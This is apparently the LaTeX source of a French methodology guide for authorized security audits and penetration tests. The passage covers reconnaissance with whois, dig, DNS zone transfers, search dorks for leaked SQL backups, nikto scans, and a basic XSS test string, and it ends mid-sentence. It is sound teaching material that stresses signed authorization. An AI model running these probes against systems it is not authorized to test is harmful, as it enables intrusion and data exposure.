\documentclass[twoside,a4paper,12pt,titlepage]{book}
\usepackage[french]{babel}

\usepackage{ifxetex}

\ifxetex
  \usepackage{fontspec}
\else
   \usepackage[utf8]{inputenc}
\fi


\usepackage{marvosym}
\usepackage{wasysym}
\usepackage{dingbat}
\usepackage{amsfonts}
\usepackage[outer=3cm, bottom=2cm, inner=2cm, heightrounded, marginparwidth=2.5cm, marginparsep=0.25cm]{geometry}
\usepackage{graphicx}
\usepackage[table,usenames,dvipsnames]{xcolor}
\usepackage{array}
\usepackage{fancyhdr}
\usepackage[hidelinks]{hyperref}
\usepackage[final]{pdfpages}
\usepackage[minted,listings,xparse]{tcolorbox}
\usepackage{afterpage}
\usepackage{pdflscape}
\usepackage{makeidx}
\usepackage{framed}
\usepackage{ifthen}
\usepackage[yyyymmdd]{datetime}
\usepackage{marginnote}
\usepackage{multirow}
\usepackage{tikz}
\usetikzlibrary{mindmap,decorations.pathmorphing,calc,shadows.blur,shadings,shapes,backgrounds}
\tcbuselibrary{skins,raster}
\tcbuselibrary{xparse,breakable}

%% Glossary
\usepackage{savesym}
\savesymbol{iiint}
\savesymbol{iint}
\usepackage[toc,acronym]{glossaries}
\restoresymbol{TXF}{iiint}
\restoresymbol{TXF}{iint}
\usepackage{xparse}

% makeindex.exe -s Methodologie.ist -t Methodologie.glg -o Methodologie.gls Methodologie.glo
% makeindex.exe -s Methodologie.ist -t Methodologie.alg -o Methodologie.acr Methodologie.acn
% https://en.wikibooks.org/wiki/LaTeX/Glossary#Defining_acronyms
\DeclareDocumentCommand{\newdualentry}{ O{} O{} m m m m } {
  \newglossaryentry{gls-#3}{name={#4},text={#4\glsadd{#3}},
    description={#6},#1
  }
  \makeglossaries
  \newacronym[see={[Glossaire:]{gls-#3}},#2]{#3}{#4}{#5\glsadd{gls-#3}}
}

%Général
\newacronym{URL}{URL}{Uniform Ressource Locator}

%Sécurité web
\newacronym{XSS}{XSS}{Cross-Site Scripting}
\newacronym{CSRF}{CSRF}{Cross-Site Request Forgery}
\newacronym{CORS}{CORS}{Cross-Origin Ressource Sharing}
\newacronym{HTTP}{HTTP}{HyperText Transfer Protocol}
\newacronym{HTTPS}{HTTPS}{HyperText Transfer Protocol Secure}
\newacronym{DNS}{DNS}{Domain Name System}
\newacronym{CMS}{CMS}{Content Management System}
\newacronym{SQL}{SQL}{Structured Query Language}
\newglossaryentry{dorks}
{
  name={dorks},
  description={Commande spécifique à un moteur de recherche permettant d'obtenir des informations appartenant au \textit{Deep Web}, c'est-à-dire non visibles aisément par la navigation standard: adresse IP, fichiers PDF...}
}

%Architecture
\newacronym{SGDB}{SGDB}{Système de Gestion de Base de données}
\newacronym{ACL}{ACL}{Access Control List}
\newacronym{DMZ}{DMZ}{DeMilitarized Zone}
\newacronym{IDS}{IDS}{Intrusion Detection System}
\newacronym{IPS}{IPS}{Intrusion Prevention System}
\newacronym{WAF}{WAF}{Web Application Firewall}
\newacronym{NAT}{NAT}{Network Address Translationl}
\newglossaryentry{WiFi}
{
  name={Wi-Fi},
  description={Norme de transmission basée sur la IEEE 802.11b et décrivant une utilisation du \gls{WLAN}}
}
\newdualentry{WLAN}{WLAN}{Wireless LAN}{Utilisation d'onde radio pour connecter les terminaux d'un réseau, par abus de langage désigné sous le terme de \gls{WiFi}}
\newdualentry{VLAN}{VLAN}{Virtual LAN}{Technologie permettant de créer des sous-réseau au sein d'un même \gls{LAN} ou d'assurer une qualité de service. Cette technologie est basée sur la norme 802.1Q}
\newdualentry{LAN}{LAN}{Local Area Network}{Système d'information limité à un lieu géographique en opposition à \gls{WAN}} 
\newacronym{WAN}{WAN}{Wide Area Network}

%Configuration
\newacronym{JSON}{JSON}{JavaScript Object Notation}
\newacronym{RBAC}{RBAC}{Role-Based Acces Control}

%Cryptographie
%%algorithmes
\newacronym{RSA}{RSA}{Rivest Shamir Adleman}
\newacronym{DES}{DES}{Data Encryption Standard}
\newacronym{3DES}{3DES}{Triple Data Encryption Algorithm}
\newacronym{AES}{AES}{Advanced Encryption Standard}
\newacronym{SHA}{SHA}{Secure Hash Algorithm}

%%mode de chiffrement
\newacronym{ECB}{ECB}{Electronic CodeBook}
\newacronym{CBC}{CBC}{Cipher Block Chaining}
\newacronym{PCBC}{PCBC}{Propagating Cipher Block Chaining/Plaintext-Cipher Block Chaining}
\newacronym{CFB}{CFB}{Cipher FeedBack}
\newacronym{OFB}{OFB}{Output FeedBack}
\newacronym{CTR}{CTR}{Counter Mode}
\newacronym{GCM}{GCM}{Galois-Counter Mode}
\newacronym{CCM}{CCM}{Counter with CBC-MAC}

%%Institut et autorité
\newdualentry{NIST} % label
  {NIST}            % abbreviation
  {National Institute of Standards and Technology}  % long form
  {Institut gouvernemental américain adressant les recommandations de normes concernant l'informatique (voir aussi \gls{FIPS}, \gls{IETF}, \gls{IEEE} et \gls{RFC}) } % description
\newdualentry{IETF}{IETF}{Internet Engineering Task Force}{Groupe informel définissant les standards d'Internet à l'aide de \gls{RFC} (voir aussi \gls{IEEE})} 
\newdualentry{IEEE}{IEEE}{Institute of Electrical and Electronics Engineers}{Association d'informatique normalisant notamment les réseaux à travers les normes 802.X mais aussi POSIX}
\newdualentry{RFC}{RFC}{Request for Comments}{Descriptions des aspects techniques des technologies d'Internet. Il ne s'agit pas toujours de normes à part entière mais de référentiels} 
\newdualentry{FIPS}{FIPS}{Federal Information Processing Standards}{Standards définis par le \gls{NIST} décrivant notamment l'usage d'AES, DES ou les courbes élliptiques}
\newdualentry{SECG}{SECG}{Standards for Efficient Cryptography Group}{Consortium pour la standardisation de la cryptographie fondé par Certicom en 1998 incluant notamment le \gls{NIST} et Visa}
\newdualentry{NSA}{NSA}{National Security Agency}{Organisation gouvernementale américaine pour la collecte de renseignements à l'étranger et la sécurisation des communications gouvernementales. La NSA fournit notamment des recommandations en cryptographie (le CNSA) pour les contractuels du gouvernement américain}
\newdualentry{ANSSI}{ANSSI}{Agence Nationale de la Sécurité des Systèmes d'Information}{Service du gouvernement français dépendant du Ministère de la Défense et se positionnant en autorité sur la sécurité des Systèmes d'Informations de la France}

%% Concept mathématiques
\newglossaryentry{ZnZ}
{
  name={\ensuremath{\mathbb{Z}/n\mathbb{Z}}},
  description={Groupe fini cyclique d'ordre n, dans le contexte de la cryptographie, n est le produit de deux premiers. On utilise $\mathbb{Z}/p\mathbb{Z}$ pour les groupes cycliques premiers, il s'agit alors d'un corps premier fini},
  sort=ZnZ
}

%% Protocole et Famille
\newacronym{DH}{DH}{Diffie-Hellman}
\newacronym{DHE}{DHE}{Diffie-Hellman Ephemeral}
\newacronym{PQC}{PQC}{Post-Quantum Cryptography}
\newacronym{ECDH}{ECDH}{Eliptic Curve Diffie-Hellman}
\newacronym{ECC}{ECC}{Eliptic Curve Cryptography}
\newacronym{SSL}{SSL}{Secure Sockets Layer}
\newacronym{TLS}{TLS}{Transport Layer Security}


\glsresetall
\makeglossaries

%% Paper Style


% Torn paper with matching torn edges
% Author: Jose Luis Diaz
\newcounter{mathseed}
\setcounter{mathseed}{3}
\pgfmathsetseed{\arabic{mathseed}} % To have predictable results
% Define a background layer, in which the parchment shape is drawn
\pgfdeclarelayer{background}
\pgfsetlayers{background,main}

% This is the base for the fractal decoration. It takes a random point between the start and end, and
% raises it a random amount, thus transforming a segment into two, connected at that raised point
% This decoration can be applied again to each one of the resulting segments and so on, in a similar
% way of a Koch snowflake.
\pgfdeclaredecoration{irregular fractal line}{init}
{
  \state{init}[width=\pgfdecoratedinputsegmentremainingdistance]
  {
    \pgfpathlineto{\pgfpoint{random*\pgfdecoratedinputsegmentremainingdistance}{(random*\pgfdecorationsegmentamplitude-0.02)*\pgfdecoratedinputsegmentremainingdistance}}
    \pgfpathlineto{\pgfpoint{\pgfdecoratedinputsegmentremainingdistance}{0pt}}
  }
}


% define some styles
\tikzset{
   paper/.style={draw=black!3, blur shadow, every shadow/.style={opacity=1, black}, 
                 lower left=black!10, upper left=black!5, upper right=white, lower right=black!5, fill=none},
   irregular border/.style={decoration={irregular fractal line, amplitude=0.2},
           decorate,
     },
   ragged border/.style={ decoration={random steps, segment length=7mm, amplitude=2mm},
           decorate,
   }
}

\def\tornpaper#1{%
\ifthenelse{\isodd{\value{mathseed}}}{%
\tikz{
  \node[inner sep=1em] (A) {#1};  % Draw the text of the node
  \begin{pgfonlayer}{background}  % Draw the shape behind
  \fill[paper] % recursively decorate the bottom border
     \pgfextra{\pgfmathsetseed{\arabic{mathseed}}\addtocounter{mathseed}{1}}%
      {decorate[irregular border]{decorate{decorate{decorate{decorate[ragged border]{
        (A.north west) -- (A.north east)
      }}}}}}
      -- (A.south east)
     \pgfextra{\pgfmathsetseed{\arabic{mathseed}}}%
      {decorate[irregular border]{decorate{decorate{decorate{decorate[ragged border]{
      -- (A.south west)
      }}}}}}
      -- (A.north west);
  \end{pgfonlayer}}
}{%
\tikz{
  \node[inner sep=1em] (A) {#1};  % Draw the text of the node
  \begin{pgfonlayer}{background}  % Draw the shape behind
  \fill[paper] % recursively decorate the bottom border
     \pgfextra{\pgfmathsetseed{\arabic{mathseed}}\addtocounter{mathseed}{1}}%
      {decorate[irregular border]{decorate{decorate{decorate{decorate[ragged border]{
        (A.north east) -- (A.north west)
      }}}}}}
      -- (A.south west)
     \pgfextra{\pgfmathsetseed{\arabic{mathseed}}}%
      {decorate[irregular border]{decorate{decorate{decorate{decorate[ragged border]{
      -- (A.south east)
      }}}}}}
      -- (A.north east);
  \end{pgfonlayer}}
}}




%% Definition of standard updated
%Recommandations de l'ANSSI
% http://www.ssi.gouv.fr/administration/guide/cryptographie-les-regles-du-rgs/
\newcommand{\refAnnexeB}{\footnote{2015: \url{http://www.ssi.gouv.fr/uploads/2015/01/RGS_v-2-0_B1.pdf}}}

%% ZnZ
\newcommand{\ZnZnAnssi}{3072\refAnnexeB}
\newcommand{\ZnZeAnssi}{$2^{16}$ bits\refAnnexeB}
\newcommand{\ZnZdAnssi}{3072\refAnnexeB}
\newcommand{\DHrecosizeAnssi}{\ZnZnAnssi}

%% ECC et ECDH
\newcommand{\ECDHrecosizeAnssi}{P-256\refAnnexeB}

%Recommandation du NIST
%http://csrc.nist.gov/publications/PubsSPs.html
%% Diffie-Hellman
\newcommand{\DHrecosizeNIST}{2048\footnote{2013: \url{http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-56Ar2.pdf}}}
\newcommand{\ECDHrecosizeNIST}{P-512\footnote{2013: \url{http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-56Ar2.pdf}}}

%% ECC
\newcommand{\ECCNIST}{$\mathbb{F}_p$: P-192, P-224, P-256, P-384, P-521; $\mathbb{F}_{2^m}$: K-163, B-163, K-233, B-233, K-283, B-283, K-409, B-409, K-571, B-571 \footnote{2013: Annexe B \url{http://nvlpubs.nist.gov/nistpubs/FIPS/NIST.FIPS.186-4.pdf}}}
\newcommand{\ECCrecoNIST}{P-192, P-224, P-256, P-384, P-521\footnote{2013: Annexe B: \url{http://nvlpubs.nist.gov/nistpubs/FIPS/NIST.FIPS.186-4.pdf}}}

%Recommandation de la NSA Suite B TS - CNSA
%https://www.iad.gov/iad/library/ia-guidance/ia-solutions-for-classified/algorithm-guidance/assets/public/upload/Commercial-National-Security-Algorithm-CNSA-Suite-Factsheet.pdf
%https://www.iad.gov/iad/programs/iad-initiatives/cnsa-suite.cfm
%% Diffie-Hellman
\newcommand{\DHrecosizeCNSA}{3072\footnote{2016: \url{https://www.iad.gov/iad/programs/iad-initiatives/cnsa-suite.cfm} basée sur la RFC 3526}}
\newcommand{\ECDHrecosizeCNSA}{P-384\footnote{2016: \url{https://www.iad.gov/iad/programs/iad-initiatives/cnsa-suite.cfm} basée sur la RFC 3526}}


% General
%%SEC2-v2 ECC
\newcommand{\ECCSECG}{$\mathbb{F}_p$: secp192, secp224, secp256, secp384, secp521; $\mathbb{F}_{2^m}$: sect163, sect233, sect239,sect283, sect409, sect571\footnote{2010: \url{http://www.secg.org/sec2-v2.pdf}}}

%%Brainpool Standard https://tools.ietf.org/html/rfc5639
\newcommand{\ECCBP}{brainpoolP160, brainpoolP192, brainpoolP224, brainpoolP256, brainpoolP320, brainpoolP384, brainpoolP512\footnote{2010: \url{https://tools.ietf.org/html/rfc5639}}}
%% Curve25519


% Recommandation afférentes à Diffie-Hellman et à Elleptic-Curve Diffie-Hellman
\newcommand{\DHminsize}{2048 }
\newcommand{\DHrecosize}{4096 }



% Style d'encart et commande
\usepackage{makeidx}

\tcbuselibrary{minted}

%% Commande \tool
%% Cette commande permet d'afficher un pseudo encart de ligne de commande en inline
%% La commande \tool*{} affiche le prompt
\newcommand{\toolindex}[1]{\index{Outils@Outils!#1}}
\DeclareTotalTCBox{\tool}{ s O{1} v O{>} }
{verbatim,colupper=white,colback=black!75!white,colframe=black}
{\IfBooleanTF{#1}{\IfEq{#2}{0}{}{\textcolor{red}{\ttfamily\bfseries #4}\IfEq{#2}{2}{\textcolor{Purple}{\ttfamily\bfseries >}}{\IfEq{#2}{3}{\textcolor{Plum}{\ttfamily\bfseries >}}{}} }}{\toolindex{#3}}%
\lstinline[language=sh,keywordstyle=\color{blue!35!white}\bfseries]^#3^}

\DeclareTotalTCBox{\msf}{ v o v }
{verbatim,colupper=white,colback=black!75!white,colframe=black}
{\footnotesize msf \IfValueT{#2}{#1(\textcolor{red}{\ttfamily\bfseries{#2}})\toolindex{metasploit!#2}}> %
\lstinline[language=sh,keywordstyle=\bfseries,basicstyle=\footnotesize\color{green!35!white}]^#3^}
\DeclareTotalTCBox{\sql}{ v }{verbatim,colupper=white,colback=black!75!white,colframe=black}
{\textcolor{red}{\ttfamily\bfseries SQL> }\lstinline[language=SQL,keywordstyle=\color{blue!35!white}\bfseries]^#1^}
\DeclareTotalTCBox{\payloadhtml}{ v }
{verbatim,colupper=white,colback=black!75!white,colframe=black}
{\lstinline[language=HTML,keywordstyle=\color{blue!35!white}\bfseries]^#1^}

%% La commande \pwrshl affiche le promt powershell
\DeclareTotalTCBox{\pshell}{ v }{verbatim,colupper=white,colback=blue!75!black,colframe=blue!90!black}
{\textcolor{red}{\ttfamily\bfseries \textbf{PS >} }\mintinline{powershell}{#1}}

%% Exemple code et exemple commande
%% Encart Jaune Vert
\newtcblisting{Console}[1]{listing engine=minted,minted style=colorful,minted language=shell,colback=GreenYellow!5!white,colframe=GreenYellow!75!black,listing only,title={\smallpencil  Exemple: #1},minted options={fontsize=\scriptsize}}
\newtcblisting{Config}[2]{listing engine=minted,minted style=colorful,minted language=#1,colback=GreenYellow!5!white,colframe=GreenYellow!75!black,listing only,title={\smallpencil  Exemple: #2},minted options={fontsize=\scriptsize,linenos,numbersep=3mm},left=5mm,enhanced,overlay={\begin{tcbclipinterior}\fill[GreenYellow!90!black] (frame.south west) rectangle ([xshift=5mm] frame.north west);\end{tcbclipinterior}}}
\newtcolorbox{FlagConsole}[1]{colback=GreenYellow!1!white,colframe=GreenYellow!85!black,title={\smallpencil Exemple: #1}}
\newtcolorbox{LongFlagConsole}[1]{enforce breakable,pad at break*=0mm,colback=GreenYellow!1!white,colframe=GreenYellow!85!black,title={\smallpencil Exemple: #1}}
\DeclareTotalTColorBox{\Schematics}{ O{} +m +m}{colback=GreenYellow!1!white,colframe=GreenYellow!85!black,sidebyside,code={\sbox{\SchematicsBox}{#2}},lefthand width=\wd\SchematicsBox,title={\smallpencil Exemple: #1}}{\usebox{\SchematicsBox}\tcblower#3}
%\newtcolorbox{Schematic}[1]{tikz upper,colback=GreenYellow!1!white,colframe=GreenYellow!85!black,title={\smallpencil Exemple: #1}}

%% Encart Récapitulatif et Définition
\newtcolorbox{Recap}[2]{colback=blue!0!white,colframe=blue!75!black,sidebyside, title={ \Pointinghand #2 \index{#1}}}
\newtcolorbox{Recap_2}[2]{colback=blue!0!white,colframe=blue!75!black,beamer, title={ \Pointinghand #2 \index{#1}}}
\newtcolorbox{Define}[1]{colback=blue!5!white,colframe=blue!75!black, title={ \Pointinghand Définition \index{#1}}}
\newtcolorbox{Pre}{colback=blue!5!white,colframe=blue!75!black, title={ \Pointinghand Prérequis}}

%% Encart avertissement
\newtcolorbox{Warning}{colback=yellow!5!white,colframe=yellow!75!black, title={ \eye Attention}}
\newtcolorbox{Stop}{colback=red!5!white,colframe=red!75!black, title={ \Stopsign Important}}

%% Index
\makeindex

%%FIXME Commande
\newcommand{\FIXME}[1]{{\huge\textbf{FIXME: #1}}}

%% Itemize
\renewcommand{\labelitemi}{$\bullet$}
\renewcommand{\labelitemii}{$\cdot$}
\renewcommand{\labelitemiii}{$\diamond$}
\renewcommand{\labelitemiv}{$\ast$}

%% Fancy
\newcommand{\HRule}{\rule{\linewidth}{0.5mm}}
\newcommand{\MarginPar}[2]{\marginnote{\scriptsize #1}[#2]}
\renewcommand{\dateseparator}{}

%% Graphics
\newsavebox\SchematicsBox
\newsavebox\ExampleBox

%% Description
\title{Formalisation de Méthodologie pour les audits de sécurité CTF}
\author{Pierre d'Huy}
\date{\today\\v0.2 alpha}

\begin{document}
\begin{titlepage}
	\begin{center}
		\textsc{\footnotesize Licence CC-By-SA}
		\HRule \\[2cm]
%		\textsc{\large Pierre d'Huy}\\
		\hspace{1cm}
\includegraphics[width=.3\textwidth]{feather.png}\\
		\textsc{\large pierre.dhuy.net}\\[2.5cm]
			{ \huge \bfseries Méthodologie \\[0.3cm] }
		\HRule \\[0.5cm]
		\textsc{\huge Formalisation des audits de Sécurité}
	\end{center}
\end{titlepage}

\begin{Warning}
De nombreuses solutions existent pouvant réaliser les mêmes taches voir mieux que les outils ci-dessous, cependant ce guide apporte une approche basée sur le raisonnement plutôt que sur une liste exhaustive d'outils.
\end{Warning}
\vfill
\begin{tabular}{|p{2cm} | p{6cm} | p{6cm}|}
	\hline
	Version & Auteur & Notes de version\\
	\hline
	\textbf{\today} & Yassim Derrouiche (Java, PHP) \& Pierre d'Huy (.NET) & Ajout de l'audit de code\\
	\hline
	\textbf{\today} & Pierre d'Huy & Ajout de l'audit de configuration\\
	\hline
	20160120 & Pierre d'Huy & Ajout de l'audit d'architecture\\
	\hline
	20150907 & Pierre d'Huy & Création du document\\
	\hline	
\end{tabular}
\tableofcontents
\mainmatter
\chapter*{Définition du contexte d'audit}
\begin{Define}{Audit}
La méthodologie d'audit est basée sur le processus de l'ISO 19011. Cette méthodologie doit être adaptée à la taille de l'entreprise auditée et au type d'audit.\\
Un audit est un processus méthodique, indépendant et documenté réalisé par une \textbf{équipe d'audit} permettant d'obtenir des \textbf{preuves d'audit} et de les évaluer vis-à-vis de \textbf{critères d'audit} afin de dresser des \textbf{constatations d'audit} (conformité ou non-conformité) qui, une fois ramenées aux objectifs de l'audit, permettront de dresser des \textbf{conclusions d'audit}.
\end{Define}
\begin{Warning}
Durant l'audit, les preuves d'audit doivent être soigneusement conservées. Cependant, à l'issue de l'audit, elles doivent être détruites et un procès verbale confirmant la destruction devra être signé par l'audité et le responsable de l'équipe d'audit.
\end{Warning}
Une équipe d'audit est constituée par les auditeurs réalisant l'audit assistés si nécessaire par des \textbf{experts techniques}. Elle peut être accompagnée d'un \textbf{observateur} ne réalisant ni ne participant à l'audit mais nommé par une partie intéressée ou par un \textbf{guide} assistant le processus d'audit et nommé par l'audité.\newline\newline
Un audit doit être le résultat d'un programme suivant le schéma Plan Do Check Act, c'est-à-dire que le programme respecte un cycle admettant la correction des objectifs au cours de la réalisation de l'audit. \begin{enumerate}
\item Définition des ressources
\item Réalisation de l'audit
\item Constatation d'audit
\item Conclusion d'audit ou redéfinition des objectifs
\end{enumerate}

\chapter{Test d'intrusion}
\begin{Pre}Le consultant doit disposer d'une feuille d'autorisation en bonne et due forme signée. Sur cette feuille d'autorisation doit figurer le périmètre précis du test d'intrusion sous la forme d'une adresse réticulaire (\gls{URL}), un domaine, d'une adresse IP ou d'un range d'adresse IP. Le consultant devra vérifier l'appartenance de ces IPs au client avant d'y mener des tests offensifs (dans le Scope).\end{Pre}
\section{Méthodologie générale}
Le test d'intrusion se caractérise en une procédure de 4 étapes:
\begin{itemize}
\item[\textbf{S}]cope: Dans cette phase, le consultant définit clairement le périmètre et les points d'entrée potentiels de l'attaque.
\item[\textbf{A}]nalyse: Le consultant réalise ensuite une phase de recherche pour préparer les exploits connus de la cible.
\item[\textbf{U}]sage: Cette phase se réalise souvent en parallèle de la précédente et peut conduire à la redéfinition du scope. Il s'agit de l'attaque à proprement parler.
\item[\textbf{F}]ormalisation: Cette phase conclut le test d'intrusion et permet de rassembler les notes afférentes à la mission pour produire un rapport au client. 
\end{itemize}
Il existe différents approches du test d'intrusion:\begin{itemize}
	\item \textbf{La Boîte Noire} (BN)\index{TI@Test d'intrusion!Boîte Noire}: Le consultant ne dispose d'aucune information sur le réseau ou la cible. Il ne possède qu'une adresse IP ou une adresse réticulaire.
	\item \textbf{La Boîte Grise} (BG)\index{TI@Test d'intrusion!Boîte Grise}: le consultant dispose éventuellement d'identifiants ou d'informations complémentaires sur le réseau. Ce type de test d'intrusion s'approche du test du stagiaire en test d'intrusion interne. Le consultant endosse le rôle d'un utilisateur malveillant.
	\item \textbf{La Boîte Blanche} (BB)\index{TI@Test d'intrusion!Boîte Blanche}: Le consultant dispose du code source de la cible, d'identifiants de tous les niveaux d'authentification...
\end{itemize}


\section{Test d'intrusion externe}
\subsection{Scope}
\subsubsection{Analyse passive du périmètre}
\begin{Define}{TIE@Test d'intrusion externe!Découverte passive} La découverte du périmètre doit se faire progressivement afin de s'assurer qu'aucun obstacle n'apparaisse pendant la mission. Il est donc nécessaire de vérifier que les données fournies par le client sont conformes et que les fiches d'autorisation sont conformes. Pour cela les consultants doivent contrôler l'appartenance de l'adresse réticulaire au client ainsi que si l'adresse IP sous-jacente est hébergée par le client ou qu'une fiche d'autorisation adéquate a été signée par le prestataire s'occupant de l'hébergement et/ou du nom de domaine.\end{Define}
\begin{Stop} Attention si le consultant n'a pas la fiche d'autorisation adéquate, il doit arrêter le travail et en référer au responsable de mission qui en notifiera immédiatement le client.\end{Stop}
	Une première vérification peut s'effectuer à l'aide de la commande \tool{whois}\footnote{whois est un programme disponible sur la plupart des distributions Linux, permettant de contacter la base RIPE.} ou directement en ligne sur des sites comme \url{https://whois.domaintools.com} \footnote{Ce site présente également l'avantage de proposer un petit Reverse IP lookup permettant de repérer une IP hébergeant plusieurs domaines, il s'agit en ce cas d'un serveur mutualisé et il est nécessaire d'obtenir l'autorisation du prestataire opérant le serveur}.\\

\begin{Console}{Requête Whois\toolindex{whois} auprès de IANA}
> whois dhuy.net
[...]
Registrant Name: D HUY Pierre
Registrant Organization: 
Registrant Street: dhuy.net, office #7185604, c/o OwO, BP80157
Registrant City: 59053
Registrant State/Province:
Registrant Postal Code: Roubaix Cedex 1
Registrant Country:  FR
Registrant Phone: +33.899498765
Registrant Phone Ext:
Registrant Fax: 
Registrant Fax Ext:
Registrant Email: yaa6be7ge9decfkd9gay@w.o-w-o.info
[...]
\end{Console}
\MarginPar{\textbf{Whois}: Pour contôler le possesseur de la cible}{-4cm}
Dans le cas d'un site web, à cette étape le consultant peut également rechercher des informations sur la cible via un moteur de recherche en utilisant des \textbf{\gls{dorks}\toolindex{dork}}. Une liste assez complète des dorks google est disponible sur exploit-db\footnote{\url{https://www.exploit-db.com/google-hacking-database/}}.\\
\begin{FlagConsole}{Dorks}
	Il existe de nombreux dorks en fonction des moteurs de recherche.
	\tcbsubtitle{Google}
	\texttt{> filetype:sql inurl:backup site:example.com password}\\
	filetype:SQL définit le type de fichers à recherche (ici SQL)\\
	inurl:backup recherche les dossiers contenant backup\\
	site:example.com recherche sur le site example.com
	\tcbsubtitle{Bing}
	\texttt{> ip:173.194.40.111}\\
	ip est une commande propre à bing permettant une recherche non basée sur une url mais sur une ip
\end{FlagConsole}
Le consultant recherchera ensuite les enregistrements \gls{DNS} liés au site à l'aide d'outils standards tels que \tool{dig}\footnote{dig est un outil appartenant à la suite bind-tools sur Archlinux et dnsutils sur les Debian-like.} ou \tool{nslookup}\footnote{Il est à noter que nslookup est disponible sur Windows mais que le transfert de zones a été désactivé dessus.}. Ces outils serviront à tester trois aspects du site: la validation de l'adresse IP associée au dommaine et potentiellement la détection de load balancing au niveau DNS (\textbf{Requête DNS}), la détection de domaines différents du domaine enregistré (\textbf{DNS lookup}) et des noms de domaines dissimulés, voir la cartographie interne du réseau (\textbf{transfert de zones}).\\
La résolution \gls{DNS}  et la requête de reverse DNS du nom de domaine peuvent se faire en utilisant vos DNS locaux, un DNS public\footnote{Par exemple les DNS de Google ou d'OpenDNS} ou le DNS de l'entreprise. Sur des sites à hautes fréquentations et disposant de plusieurs IPs derrière le nom de domaine, les résultats peuvent être différents. Il faudra dans ce cas réaliser une fixation de l'IP pendant les tests pour être sûr d'attaquer une même cible à l'aide du fichier /etc/hosts.\\
La commande \tool{dig} pour réaliser une requête DNS est:


\begin{Console}{Requête DNS standard}

> dig @8.8.8.8 example.com
[... La réponse comporte plusieurs sections ...]
;; ANSWER SECTION:
example.com.	67109 	IN	A	93.184.216.34
[...]

\end{Console}
\MarginPar{\textbf{Dig}: Requête DNS}{-2cm}

La partie @8.8.8.8 permet d'envoyer la requête au serveur \gls{DNS} de Google dans cet exemple. Il est à noter que les serveurs Google limitent souvent la réponse à un résultat alors même qu'il peut y avoir plusieurs serveurs. La valeur 67109 indique le temps pendant lequel le résultat de cette requête peut être mise en cache.\\
La requête pour obtenir une adresse réticulaire à partir d'une adresse IP, ou reverse DNS, est:

\begin{Console}{Lookup DNS ou Reverse DNS}

> dig -x 173.194.40.127
[...]
;; ANSWER SECTION:
127.40.194.173.in-addr.arpa.	66765	IN	PTR	par10s09-in-f31.1e100.net.
[...]

\end{Console}
\MarginPar{\textbf{Dig}: Reverse DNS}{-2cm}
Si aucune section ANSWER n'apparait c'est que cette adresse IP ne dispose pas d'enregistrement en reverse DNS. Cependant dans la section AUTHORITY (si présente), il est toujours possible de voir une trace de l'hébergeur des données. Cette requête permet de compléter la partie passive de la découverte de la cible.\\
La requête de transfert de zones n'est utilisable que sur le serveur DNS de la cible et uniquement dans le cas où celui-ci est mal paramétré. Malheureusement, ce cas de figure reste fréquent. Cependant cette méthode appartient plus à la découverte active de la cible car pouvant interagir avec elle et surtout pouvant laisser des traces. La requête pour réaliser le transfert de zones avec \tool{dig} est:
\begin{Console}{Transfert de zones}

> dig example.com @ns.example.com AXFR 
[... résultat anonymisé ...]
  2800-nowhere-10p.example.com. 86400   IN      A       192.168.10.254
  2800-nowhere-14p.example.com. 86400   IN      A       192.168.14.254
  2800-nowhere-3p.example.com.  86400   IN      A       192.168.3.254
  2800-nowhere-alarme.example.com.      86400   IN      A       192.168.50.252
  2800-nowhere-borne.example.com.       86400   IN      A       192.168.29.252
  2800-nowhere-reseau.example.com.      86400   IN      A       192.168.20.247
  2800-nowhere-wifi-wpa.example.com.    86400   IN      A       192.168.40.254
  2800-nowhere-wifi.example.com.        86400   IN      A       192.168.35.254
[...]
\end{Console}
\MarginPar{\textbf{Dig}: Transfert de zones DNS}{-4cm}
Sur l'exemple fictif ci-dessus l'intégralité du réseau interne a été révélée. C'est une situation très risquée.\\
Ce dernier test permet d'ouvrir sur la section active de découverte du périmètre.

\subsubsection{Analyse active du périmètre}
\begin{Define}{TIE@Test d'intrusion externe!Découverte active} L'analyse active du périmètre consiste en la découverte des services actifs de la cible, de leur version et de leur potentielles vulnérabilités. Il s'agit de réaliser un \textbf{fingerprint} complet de la cible avec des outils interagissants directement avec elle de manière plus ou moins visible.\end{Define}
	Pour détecter les services fonctionnels, le consultant peut approcher la cible de plusieurs manières différentes.\\
	\MarginPar{\textbf{Directory Discovery}}{0cm}
	S'il s'agit d'un site web, ou d'un service accessible par navigateur, il convient de rechercher les services cachés à l'aide d'outils ou manuellement. Ainsi, il est possible d'explorer les pages cachées en les recherchant à l'aide du \textbf{robots.txt} ou plus simplement en recherchant les pages représentatives des grands \gls{CMS} (\texttt{/?q=user} ou la présence d'un \texttt{/sites} pour les images pour Drupal, \texttt{/wp-admin} pour Wordpress) ou des noms communs (admin, private...). De nombreux outils tel que \tool{patator}\footnote{\url{https://github.com/lanjelot/patator}} ou \tool{Nikto}\footnote{\url{https://github.com/sullo/nikto}} permettent de réaliser cette recherche. Et certains permettent même de mettre en avant des vulnérabilités supposées.
\begin{FlagConsole}{Utilisation de la commande nikto.pl}
	\tool*{nikto -h example.com -p 1337 -ssl -output name -C all}
	\tcblower
	-h: définit la cible de nikto\\
	-p 1337: tente de se connecter au port 1337... \\
	-ssl: ...en utilisant ssl\\
		Ce type de tentative survient surtout après un scan préalable qui révèle un service web\\
	-output: Produit un fichier rapport qui pourra être utilisé dans les phases suivantes\\
	-C all: lance tous les tests
\end{FlagConsole}
	Sur un service web, le consultant peut aussi être amené à rechercher des vulnérabilités dans le traitement des données. Ainsi les différents champs utilisateurs devront être testés pour vérifier s'ils sont exposés à des vulnérabilités de type injection \gls{XSS}, \gls{SQL} ou blind SQL. Une injection consiste en l'exécution de code par le mécanisme de traitement des données et allant à l'encontre du principe de fonctionnement normal de l'application. Encore une fois des outils automatiques existent qui peuvent gérer ce type de recherche comme \tool{sqlmap}\footnote{\url{https://github.com/sqlmapproject/sqlmap}}, \tool{arachni}\footnote{\url{https://github.com/Arachni/arachni}} ou \tool{w3af}\footnote{\url{https://github.com/andresriancho/w3af}}. Cependant même si ces outils apportent un gain de temps précieux, certains environnements ne se prêtent pas à ce type d'outil (volonté de discrétion, faible support face à la charge, accès manuel uniquement, javascript) ou ne présentent pas une configuration que reconnaitrait l'outil. Les tests les plus communs pour les XSS consistent en la saisie d'une chaine de ce type "$<script>alert();</script>$" mais qui présentent beaucoup de 